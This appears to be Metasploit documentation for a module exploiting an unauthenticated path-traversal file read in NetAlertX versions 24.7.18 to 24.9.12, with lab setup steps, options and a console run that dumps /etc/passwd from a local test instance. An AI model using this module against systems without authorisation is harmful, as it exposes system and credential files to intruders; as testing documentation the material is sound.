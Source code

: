 ## Vulnerable Application


An attacker can read any file through log functionality with no authentication.

The vulnerability affects:

    * v24.7.18 <= NetAlertX <= v24.9.12

## Verification Steps

### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```

### Verification

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/netalertx_file_read`
4. Do: `run rhost=<rhost>`
5. You should get the contents of the specified file.

## Options

- `RHOSTS`: target host
- `RPORT`: target port, default 20211
- `FILEPATH`: path to the required file
- `DEPTH`: number of `../` to be prepended to `FILEPATH`

## Scenarios

```
msf6 > use auxiliary/scanner/http/netalertx_file_read 
msf6 auxiliary(scanner/http/netalertx_file_read) > show options

Module options (auxiliary/scanner/http/netalertx_file_read):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DEPTH     5                yes       Traversal Depth (to reach the root folder)
   FILEPATH  /etc/passwd      yes       The path to the file to read
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
   RPORT     20211            yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   VHOST                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/netalertx_file_read) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/http/netalertx_file_read) > run
[*] Received data:
[*] root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
catchlog:x:100:101:catchlog:/:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin

[*] Stored results in netalert_result.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/netalertx_file_read) > 


```


